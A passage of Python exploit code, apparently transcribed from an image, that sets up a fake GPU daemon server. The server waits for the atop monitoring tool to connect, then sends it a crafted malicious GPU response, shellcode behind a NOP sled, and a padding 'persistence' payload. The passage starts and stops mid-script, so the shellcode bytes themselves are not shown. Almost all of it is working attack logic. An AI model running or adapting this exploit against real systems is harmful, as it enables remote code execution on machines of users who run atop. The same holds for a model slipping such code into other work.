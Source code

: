         # NOP sled for reliability
        nop_sled = b"\x90" * 100
        
        return nop_sled + shellcode
    
    def handle_client_connection(self, client_socket, client_address):
        """
        Handle incoming ATOP connection and send malicious data
        """
        print(f"[+] ATOP connected from {client_address}")
        
        try:
            # Wait for initial request
            initial_request = client_socket.recv(1024)
            print(f"[+] Received request: {initial_request[:100]}")
            
            # Send malicious GPU response
            malicious_response = self.create_malicious_gpu_response()
            shellcode = self.create_shellcode_payload()
            
            print(f"[+] Sending malicious GPU data ({len(malicious_response)} bytes)")
            client_socket.send(malicious_response)
            
            # Send shellcode payload
            print(f"[+] Sending shellcode payload ({len(shellcode)} bytes)")
            client_socket.send(shellcode)
            
            # Keep connection alive to maintain exploitation
            time.sleep(2)
            
            # Send additional payloads for persistence
            persistence_payload = b"PERSIST:" + b"A" * 1000 + b"\n"
            client_socket.send(persistence_payload)
            
            print("[+] Exploitation payloads sent successfully")
            
        except Exception as e:
            print(f"[-] Error handling client: {e}")
        finally:
            client_socket.close()
            print(f"[+] Connection from {client_address} closed")
    
    def start_malicious_server(self):
        """
        Start malicious GPU daemon server
        """
        try:
            self.server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            self.server_socket.bind(('0.0.0.0', self.listen_port))
            self.server_socket.listen(5)
            